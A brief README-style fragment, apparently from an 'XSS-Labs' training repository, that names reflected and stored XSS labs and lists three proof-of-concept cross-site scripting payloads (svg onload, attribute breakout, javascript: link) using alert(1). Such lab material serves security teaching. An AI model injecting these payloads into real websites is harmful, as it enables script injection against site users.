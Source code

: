 # XSS-Labs
# Lab1 = Reflected XSS 
      
# Lab2 = Stored XSS
  <svg onload=alert(1)>
  "><svg onload=alert(1)>
  <a href="javascript:alert(1)">Next >></a>
